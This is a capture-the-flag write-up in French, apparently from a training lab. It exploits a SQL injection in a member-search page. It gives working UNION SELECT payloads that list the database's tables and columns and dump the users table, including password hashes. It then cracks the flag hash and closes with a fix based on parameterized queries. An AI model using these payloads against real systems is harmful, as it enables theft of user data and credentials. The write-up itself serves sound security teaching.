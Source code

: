 # Member SQL injection

Sur /index.php?page=member, on peut rechercher les membres par id. En testant on se rend compte que l'input n'est pas protégé et qu'on peut injecter du sql dans le where.
La requête SQL ressemble à ça: `SELECT first_name, surname FROM users where id_user = $id`

### Récupération des tables

On peut commencer par récupérer toute les tables présentes dans la database:
Input : `1 UNION SELECT 1, table_name FROM information_schema.tables`
Le `1,` ici permet simplement de récupérer autant de columns que dans le SELECT précédant (le SELECT du code d'index.php), c'est à dire 2 colonnes.
Output:
```
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
First name: 1
Surname : CHARACTER_SETS
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
First name: 1
Surname : COLLATIONS
ID: 1 UNION SELECT 1, table_name FROM information_schema.tables 
First name: 1
Surname : COLLATION_CHARACTER_SET_APPLICABILITY

ETC...
```
Nous retrouvons le nom des tables dans la colonne `surname`
On remarque que la table `users` est présente, et nous allons nous conentrer dessus

### Récupération des colonnes de la table `users`

Il faut maintenant récupérer les colonnes de la table `users`:
Input: `1 UNION SELECT table_name, column_name FROM information_schema.columns`
(Ici, pas besoin du `1,` car nous récupérons déjà 2 colonnes)
Output (avec un ctrl+f sur "users"):
```
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : user_id
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : first_name
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : last_name
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : town
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : country
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : planet
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : Commentaire
ID: 1 UNION SELECT table_name, column_name FROM information_schema.columns 
First name: users
Surname : countersign
```
Pareil ici, on récupère toutes les colonnes de la table `users` dans `surname`.

### Récupération de toutes les infos utilisateurs

Il nous suffit maintenant de récupérer toute les données contenues dans la table `users`.
Comme nous récupérerons ici beaucoup de colonnes et que nous ne pouvons normalement qu'en récuperer que 2 avec le `UNION`, on doit utiliser un `concat()` pour concaténer la sortie de plusieurs colonnes en une seule. Pour la clareté, on ajouter un `\n`  entre chaque colonne:
Input: `1 union select 1, concat(user_id, 0x0a, first_name, 0x0a, last_name, 0x0a, town, 0x0a, country, 0x0a, planet, 0x0a, Commentaire, 0x0a, countersign) from users`
Output:
```
ID: 1 union select 1, concat(user_id, 0x0a, first_name, 0x0a, last_name, 0x0a, town, 0x0a, country, 0x0a, planet, 0x0a, Commentaire, 0x0a, countersign) from users 
First name: 1
Surname : 3
Joseph
Staline
Moscou
Russia
Earth
????? ????????????? ?????????
e083b24a01c483437bcf4a9eea7c1b4d

ID: 1 union select 1, concat(user_id, 0x0a, first_name, 0x0a, last_name, 0x0a, town, 0x0a, country, 0x0a, planet, 0x0a, Commentaire, 0x0a, countersign) from users 
First name: 1
Surname : 5
Flag
GetThe
42
42
42
Decrypt this password -> then lower all the char. Sh256 on it and it's good !
5ff9d0165b4f92b14994e5c685cdce28

ETC...
```
On remarque qu'un `user` nommé `Flag` existe, un hash est présent dans la colonne `countersign` et des instructions sont présentes dans la colonne `Commentaire`

Avec une rapide recherche internet, on découvre que `5ff9d0165b4f92b14994e5c685cdce28` est un md5, et une fois déchiffré, nous donne `FortyTwo`.
Il nous suffit de le lower puis de le sha256 : `sha256(fortytwo) = 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5`

# Comment fix ?

Il faudra ici sanitize les inputs utilisateur au maximum, mais surtout utiliser les "requêtes paramétrées", préparées par le serveur, qui ajouteront les paramètres à l'execution des requêtes. Il sera alors impossible d'ajouter un bout de requêtes SQL, étéant donné que la requête préparée sera pré-compilée, et les paramètres, non.


